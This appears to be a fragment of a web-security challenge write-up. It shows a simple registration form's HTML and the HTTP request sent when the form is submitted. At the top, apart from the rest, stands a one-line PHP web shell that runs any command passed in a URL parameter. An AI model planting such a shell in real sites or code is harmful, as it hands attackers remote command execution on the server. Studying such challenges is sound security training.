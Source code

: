 ```<?php system($_GET["some"]); ?>```

```html

<html>

<head>

    <title>Register</title>

</head>

<h1>Please register your username:</h1>

<form action="/register" method="POST" enctype="application/x-www-form-urlencoded">

    <input type="text" name="username"/>

    <input type="submit" value="Submit" />

</form>

</html>

```

  

Submitting the form causes the following request/response:

  

**Request**

  

```

POST /register HTTP/2

Host: username-okntin33tq-ul.a.run.app

User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:123.0) Gecko/20100101 Firefox/123.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded

Content-Length: 12

Origin: https://username-okntin33tq-ul.a.run.app

Referer: https://username-okntin33tq-ul.a.run.app/

Upgrade-Insecure-Requests: 1

Sec-Fetch-Dest: document

Sec-Fetch-Mode: navigate

Sec-Fetch-Site: same-origin

Sec-Fetch-User: ?1

```
